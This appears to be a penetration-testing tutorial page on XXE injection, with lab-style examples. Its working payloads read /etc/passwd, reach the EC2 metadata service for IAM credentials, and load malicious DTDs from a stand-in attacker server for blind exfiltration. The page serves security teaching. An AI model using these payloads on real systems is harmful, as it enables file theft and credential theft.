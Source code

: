 # XXE injection

## Theory

Some web applications handle data and rely on the XML format to exchange data with the browsers.

> XXE vulnerabilities arise because the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.
>
> XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data ([portswigger](https://portswigger.net/web-security/xxe)).

XXE injections can sometimes lead to [SSRF (Server-Side Request Forgery)](../../web/inputs/ssrf.md), Local File Disclosure, Sensitive Information Disclosure, Data Exfiltration, RCE (Remote Code Execution) and so on.

## Practice

### Identify an XXE injection vulnerability

Testers need to find inputs or forms that send XML formatted data to the application.

For instance, in the following request, the user submitted a search form with the input "TESTINPUT".

```http
POST /action HTTP/1.1
Host: some.website
[...]
Connection: close

<?xml version="1.0"?>
<searchForm>  
         <from>TESTINPUT</from>
</searchForm>
```

The tester can detect if the XML parser parses the external entities by defining one inside a `DOCTYPE` element, and checking if the value in the `from` element gets replaced (the value will be replaced in the reflected messages sent by the application like error messages, search results).

```markup
<?xml version="1.0"?>
<!DOCTYPE xxeinjection [ <!ENTITY newfrom "VULNERABLE"> ]>
<searchForm>  
         <from>&newfrom;</from>
</searchForm>
```

A vulnerable application should replace the value by "VULNERABLE".&#x20;

### Retrieve content of local files

When the tester has identified a vulnerable entry point (see [identify an XXE](xxe-injection.md#identify-an-xxe-injection-vulnerability)). He can try to disclose local files by replacing the `from` value with the content of a sensitive file (e.g. `/etc/passwd`).

```markup
<?xml version="1.0"?>
<!DOCTYPE xxeinjection [ <!ENTITY newfrom SYSTEM "file:///etc/passwd"> ]>
<searchForm>
  <from>&newfrom;</from>
</searchForm>
```

### Conduct an SSRF attack

An XXE can be exploited to conduct an SSRF. When an application performs data transfer using XML, the request can be intercepted and forwarded to an internal host as follow.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY newfrom SYSTEM "http://{internal_host}/..."> ]>
<searchForm>
    <from>&newfrom;</from>
</searchForm>
```

<details>

<summary>Example: Get EC2 IAM role temporary credentials</summary>

In the following example, the attacker tries to access the AWS EC2 metadata service to retrieve the EC2 role credentials used by the server.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/metadata/iam/security-credentials/"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

```

The internal server will reveal the URL path to access the role's credentials as an error message at each step by displaying the HTTP response body of the accessed URL as follows:&#x20;

1. URL = "http://169.254.169.254/latest/metadata/iam/security-credentials/"\
   The server will return an error message revealing the EC2 role name: `invalid productId ec2-role-name`_._

<!---->

1. URL = "http://169.254.169.254/latest/metadata/iam/security-credentials/ec2-role-name"\
   The server will return an error message revealing the EC2 role's secrets as `invalid productId`.

For more details, refer to the ["XXE to SSRF" PortSwigger lab](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf).

</details>

### Blind XXE

Sometimes, an XXE injection can be found, but the app doesn't return the values of any defined external entities within its responses. It's called a blind XXE.

There are two ways to find & exploit a blind XXE :&#x20;

* XML parsing errors can be triggered so that sensitive data is included in the error messages.
* Out-of-band network interactions can be initiated, sometimes leaking sensitive data into the interaction data such as[ SSRF attacks](xxe-injection.md#conduct-an-ssrf-attack).

#### Blind XXE via error messages

It is possible to perform a blind XXE by triggering an XML parsing error where the error message contains the sensitive data that needs to be retrieved.

An attacker can trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows :

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "ATTACKER-DTD-URL"> %xxe;]>
```

Then, on a victim server, the attacker can submit this payload to get access to the `/etc/passwd` file:

<figure><img src="../../.gitbook/assets/ERROR-BASED-BLIND-XXE.png" alt=""><figcaption><p>Diagram explaining a blind XXE</p></figcaption></figure>

<details>

<summary>Example</summary>

In this example, an attacker has access to a website containing a shop.

This shop has a "Check stock" feature that parses XML input but does not display the result.

```http
POST /product/stock HTTP/2
Host: something.web-security-academy.net.com
Cookie: session=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Content-Length: 107


<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

If an attacker intercept this request, he will be able to perform a blind error based XXE. First, on the attacker server, prepare the XML payload that will lead to leak `/etc/passwd` due to an XML parsing error :

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

Then, the attacker will have to perform a out-of-band XXE to call the the payload stored on his exploit server :

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "URL_OF_THE_ATTACKER_PAYLOAD"> %xxe;]>
```

In the HTTP response, the attacker will have access to the `/etc/passwd` file of the victim's server that host the shop. Final payload will look like this :

```http
POST /product/stock HTTP/2
Host: something.web-security-academy.net.com
Cookie: session=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Content-Length: 107


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://attacker_server/xxe_payload"> 
%xxe;
]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

</details>

#### Blind XXE by repurposing a local DTD

This type of attack is used when blind out-of-band XXE cannot be performed.

An attacker can trigger error messages using a [loophole in the XML language specification.](#user-content-fn-1)[^1]

The attack consists in invoking an existing DTD file (on the local filesystem). Then, redefining the existing entity in a way that triggers a parsing error containing sensitive data like [Blind XXE via error ](xxe-injection.md#blind-xxe-via-error-messages)messages.

<figure><img src="../../.gitbook/assets/DTD-REPURPOSING-BLIND-XXE.png" alt=""><figcaption><p>Diagram explaining a blind XXE via repurposing a local DTD</p></figcaption></figure>

<details>

<summary>Example</summary>

In this example, an attacker has access to a website containing a shop.

This shop has a "Check stock" feature that parses XML input but does not display the result.

```http
POST /product/stock HTTP/2
Host: something.web-security-academy.net.com
Cookie: session=bbbbbbbbbbbbbbbbbbbbbbbbbb
Content-Length: 107


<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

An attacker can edit the request to repurpose a local DTD. The main challenge is to find an existing DTD.&#x20;

For example, systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso.`

Knowing this, the attacker can write this payload that will lead to leak the `/etc/passwd` file:&#x20;

```xml
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

Final payload will look like this :

```http
POST /product/stock HTTP/2
Host: something.web-security-academy.net.com
Cookie: session=bbbbbbbbbbbbbbbbbbbbbbbbbb
Content-Length: 107


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

</details>

## References

{% embed url="https://portswigger.net/web-security/xxe" %}

{% embed url="https://enciphers.com/how-to-exploit-xxe-vulnerabilities/" %}

{% embed url="https://portswigger.net/web-security/xxe/blind" %}

{% embed url="https://blog.zsec.uk/blind-xxe-learning/" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection" %}

[^1]: If a document's DTD uses a hybrid of internal and external DTD declarations, then the internal DTD can redefine entities that are declared in the external DTD. When this happens, the restriction on using an XML parameter entity within the definition of another parameter entity is relaxed
